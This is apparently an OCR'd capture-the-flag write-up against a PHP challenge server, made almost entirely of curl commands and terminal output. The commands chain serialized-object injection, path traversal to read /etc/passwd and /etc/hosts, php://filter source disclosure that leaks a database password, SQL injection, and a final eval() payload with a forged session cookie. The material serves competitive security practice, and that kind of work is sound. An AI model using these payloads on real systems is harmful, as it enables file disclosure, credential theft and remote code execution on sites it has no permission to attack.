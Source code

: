 

`curl -X POST "http://poseidonchalls.westeurope.cloudapp.azure.com:20000//?first=pickle_rick&second=122804&third=/dev/fd/11"`

O%3A%2B17%3A%22injection%5Fchambre%22%3A3%3A%7Bs%3A5%3A%22sprue%22%3Bs%3A4%3A%22pass%22%3Bs%3A11%3A%22mold%5Fplate1%22%3Bs%3A9%3A%22plate1val%22%3Bs%3A11%3A%22mold%5Fplate2%22%3BR%3A3%3B%7D

curl -X POST "http://poseidonchalls.westeurope.cloudapp.azure.com:20000//?first=pickle_rick&second=122804&third=/dev/fd/11&fourth=O%3A%2B17%3A%22injection%5Fchambre%22%3A3%3A%7Bs%3A5%3A%22sprue%22%3Bs%3A4%3A%22pass%22%3Bs%3A11%3A%22mold%5Fplate1%22%3Bs%3A9%3A%22plate1val%22%3Bs%3A11%3A%22mold%5Fplate2%22%3BR%3A2%3B%7D"

/////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////etc/passwd

```
╭─zoey@virtual-parrot ~/sec/poseidon/old-rick ‹master*› 
╰─$ curl -X POST "http://poseidonchalls.westeurope.cloudapp.azure.com:20000//?first=pickle_rick&second=122804&third=/dev/fd/11&fourth=O%3A%2B17%3A%22injection%5Fchambre%22%3A3%3A%7Bs%3A5%3A%22sprue%22%3Bs%3A4%3A%22pass%22%3Bs%3A11%3A%22mold%5Fplate1%22%3Bs%3A9%3A%22plate1val%22%3Bs%3A11%3A%22mold%5Fplate2%22%3BR%3A3%3B%7D" -d "fifth=/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././etc/hosts"
Where would you find the components of the injection?
```

```
curl -X POST "http://poseidonchalls.westeurope.cloudapp.azure.com:20000//?first=pickle_rick&second=122804&third=/dev/fd/11&fourth=O%3A%2B17%3A%22injection%5Fchambre%22%3A3%3A%7Bs%3A5%3A%22sprue%22%3Bs%3A4%3A%22pass%22%3Bs%3A11%3A%22mold%5Fplate1%22%3Bs%3A9%3A%22plate1val%22%3Bs%3A11%3A%22mold%5Fplate2%22%3BR%3A3%3B%7D&sixth=1" -d "fifth=/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././etc/hosts"
```

curl -X POST "http://poseidonchalls.westeurope.cloudapp.azure.com:20000//?first=pickle_rick&second=122804&third=/dev/fd/11&fourth=O%3A%2B17%3A%22injection%5Fchambre%22%3A3%3A%7Bs%3A5%3A%22sprue%22%3Bs%3A4%3A%22pass%22%3Bs%3A11%3A%22mold%5Fplate1%22%3Bs%3A9%3A%22plate1val%22%3Bs%3A11%3A%22mold%5Fplate2%22%3BR%3A3%3B%7D&sixth=php://input" -d "fifth=/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././etc/hosts"

╭─zoey@virtual-parrot ~/sec/poseidon/old-rick ‹master*› 
╰─$ ./test.sh php://filter/string.quoted-printable/resource=ricksecret/db.php
<?php
$host = "127.0.0.1";
$username = "Rick";
$password = "R1cKs_Ung3s5b4L3_P45sw0Rd";
$db_name = "rick_secrets";
?>

```
 curl -X POST "http://poseidonchalls.westeurope.cloudapp.azure.com:20000//?first=pickle_rick&second=122804&third=/dev/fd/11&fourth=O%3A%2B17%3A%22injection%5Fchambre%22%3A3%3A%7Bs%3A5%3A%22sprue%22%3Bs%3A4%3A%22pass%22%3Bs%3A11%3A%22mold%5Fplate1%22%3Bs%3A9%3A%22plate1val%22%3Bs%3A11%3A%22mold%5Fplate2%22%3BR%3A3%3B%7D&sixth=php://filter/string.quoted-printable/resource=ricksecret/db2.php&sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd&seventh=!%0cwhere%0cfalse%0cunion%0cselect%0c\"th3sm4rt3s7\"%0cunion%0cselect%0c'OR%0ctrue%0cOR'&eigth=hurray" -d "fifth=/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././etc/hosts&nineth=%7Deval%28%24a%29%3B%23" -b "_SESSION[is_rick]=1;a=echo%20pickle2rick%28%29%3B"
```